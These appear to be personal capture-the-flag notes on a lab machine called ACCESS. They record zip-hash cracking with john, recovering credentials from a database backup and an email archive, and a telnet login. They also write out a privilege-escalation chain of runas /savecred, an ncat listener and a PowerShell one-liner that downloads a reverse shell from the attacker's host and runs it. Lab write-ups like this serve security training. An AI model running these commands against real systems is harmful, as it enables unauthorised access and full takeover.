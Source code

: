 ACCESS
10.10.10.98 
10.10.14.16:413

Wildcard response found:


 http://10.10.10.96/a1f3d8cd-3e99-428d-9c15-741636949ce

Unzipping a Password Protected File and Error: unsupported compression method 99

	>>> Requires "p7zip"

Tried cracking the zip file using Fcrackzip
>>> Fcrackzip is a pile of wank

Tried cracking using john the ripper

>>> zip2john <file.zip> > hash.txt
>>> john --format=zip hash.txt

Found that using TRACE on a HTTP server can lead to Cross-Site Tracing attacks XST

>>> But NMAP was wrong, the HTTP server rejects TRACE commands

Found a password to the zip file in the backup.mdb by usings strings

Installing Thunderbird to view the .pst file
>>> Nope

Found a tool called "readpst"

Converted the file to mbox and found details:


>> john@megacorp.com
>> security@accesscontrolsystems.com

>>> 4Cc3ssC0ntr0ller

Trying the different permutations give login:

	security
	4Cc3ssC0ntr0ller

On the 10.10.10.98 Telnet server. This provides access to the command line


ROOT


CMDKEY shows the saved credenials of a user

This means, I think we can use the

	"runas \savecred"

Command to run root commands


By running a reverse shell as the admin, we could get priv esc


You need a web server for the payload download

>>> python3 -m SimpleHttpServer


The listener for the reverse shell

>>> ncat -lvnp <PORT IN THE SCRIPT>


And the command run on the user to download the shell

>>> powershell IEX (New-Object Net.WebClient).DownloadString('http://<ip_of_SimpleHttpServer/rv.ps1')


In total the command below ran the shell as admin

>>> runas /savecred /user:ACCESS\Administrator "powershell IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.16/rv.ps1')"
